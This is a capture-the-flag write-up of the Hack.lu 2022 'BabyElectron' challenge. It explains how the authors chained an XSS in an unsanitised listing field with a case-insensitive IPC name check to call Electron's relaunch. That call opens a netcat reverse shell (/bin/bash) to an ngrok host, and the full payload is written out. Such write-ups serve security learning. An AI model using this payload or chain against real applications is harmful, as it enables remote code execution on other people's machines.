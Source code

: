 ```yaml
---
layout: writeup
title:  "BabyElectron"
source: ""
solves: "19/718"
date:   2020-10-26 11:10:05 +0200
event: "Hack.lu 2022 CTF"
categories: [writeup]
ctf_categories: [web, XSS, RCE]
author: "Mike L."
image: "electron.png"
---
```


## Description
So you wanted to get into Electron Pwning? Your friend found a nice app, leaked its backend source from a Github repo he found while doxing some Luxembourg Real Estate Company. Pwn away by getting RCE! If you run into problems while setting it up reach out. This is the first flagstore for babyelectron. 

There are two flags: one in /flag which you can submit here and one in /printflag which you can submit at babyelectronV2

# The challenge
The whole source code of the app, as well as the server-side code was provided.

The electon app could be used used to buy, sell and report real estate objects.
You can also report a real estate listing, which is then checked by a bot. 
The goal is to get code execution of the machine of the bot, which is visiting the reported listing.

## TL;DR


# The solution
The solution comprised two steps: 
- First, you needed to get XSS in the electron app.
- Second, you needed to abuse the IPC function and get RCE.

## Setup
To make our lives easier, we started the electon app with: `electron . --proxy-server=127.0.0.1:8080` to be able to route the traffic of the app through burp.
Furhtermore, we enabled the developer tools by commenting out: `mainWindow.webContents.openDevTools()` in main.js

## First step - Getting XSS
In the support.js function from the `app` code, we see the following:

```
// security we learned from a bugbounty report
    listing.msg = DOMPurify.sanitize(listing.msg)

    const div = `
        <div class="card col-xs-3" style="width: 18rem;">
            <span id="REL-0-houseId" style="display: none;">${listing.houseId}</span>
            <img class="card-img-top" id="REL-0-image" src="../${listing.image}" alt="REL-img">
            <div class="card-body">
              <h5 class="card-title" id="REL-0-name">${listing.name}</h5>
              <h6 class="card-subtitle mb-2 text-muted" id="REL-0-sqm">${listing.sqm} sqm</h6>
              <p class="card-text" id="REL-0-message">${listing.message}</p>
              <input type="number" class="form-control" id="REL-0-price" placeholder="${listing.price}">
            </div>
        </div>
        <div>
            ${listing.msg}
        </div>
  `
```
listing.msg does get sanitized, however the other parameter do not.
The idea is to get script execution using `listing.message` parameter.

On the first impression its only possible to write the listing.msg parameter which gets posted with the report to get XSS.
As its gets sanitized, this is not possible.

However, when selling a real estate you can specify the `listing.message` when intercepting the message with burp.
So we altered the message parameter of to `<img src=x onerror=\"alert(1);\">`

Then, we checked if the XSS worked, by visiting the support page with out own electron app. 
Therefor we simply added a reference index.html s.t. it also had a link to the support page:

```html
<li class="nav-item">
    <a class="nav-link" href="../views/support.html">
      Support
    </a>
</li>
```
And also included links on the support.html page to navigate back to the other pages:
```html
<div>
    <a href="../views/index.html">Home</a>
    <a  href="../views/listings.html">Buy</a>
    <a  href="../views/portfolio.html">My Portfolio</a>
    <a  href="../views/support.html">Support</a>
</div>
```

We then navigated to the support page and intercepted the http request with burp and filled in the id, given when reporting the listing.
Thus, we could confirm the XSS.

## Step 2

Now we need to get RCE with the XSS.
Hacktricks has a nice atricle on how to get RCE from XSS in electon: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/xss-to-rce-electron-desktop-apps
As contextIsolation is tured on - `contextIsolation: true` in main.js, we figured, that we could give it a try via RCE via IPC.

The preload.js contained the following:

```js
const RendererApi = {
  invoke: (action, ...args)  => {
      return ipcRenderer.send("RELaction",action, args);
  },
};
```
It looks like we have a ipc method called `invoke`.
Lets check which function it allows us to execute in main.js:

```js
app.RELbuy = function(listingId){
  return
}

app.RELsell = function(houseId, price, duration){
  return
}

app.RELinfo = function(houseId){
  return
}

app.RElist = function(listingId){
  return
}

app.RELsummary = function(userId){
 return 
}

ipcMain.on("RELaction", (_e, action, args)=>{
  //if(["RELbuy", "RELsell", "RELinfo"].includes(action)){
  if(/^REL/i.test(action)){
    app[action](...args)  
  }else{
    // ?? 
  }
})
```

It looks like we can execute every method that starts with REL. However, the regex check is case insensitive.
Lets see if we can find an electon api app function whose name start with `rel` that might be useful. 
We find `relaunch` https://www.electronjs.org/de/docs/latest/api/app

After a bit of trial and error and reading the docs, we could achive RCE with this javascript function: 
`api.invoke("relaunch", {args: ["4.tcp.ngrok.io", "133573", "-e", "/bin/bash"], execPath:"nc"})`

Now we just needed to put that into our XSS script and let the bot visit it to get a reverse shell back.

We posted that to /sell:
```json
"message" : "<img src=x onerror=\'api.invoke('relaunch', {args: ['4.tcp.ngrok.io', '133573', '-e', '/bin/bash'], execPath:'nc'})\">"
```
We then got the id back, which we then submitted to the bot and got a shell back. The shell only lasted for 15 secs, so we needed to be quick to print out both flag ^^. but after some attemts we got both flags.

Big thanks to Alain who helped a lot during the challenge. :)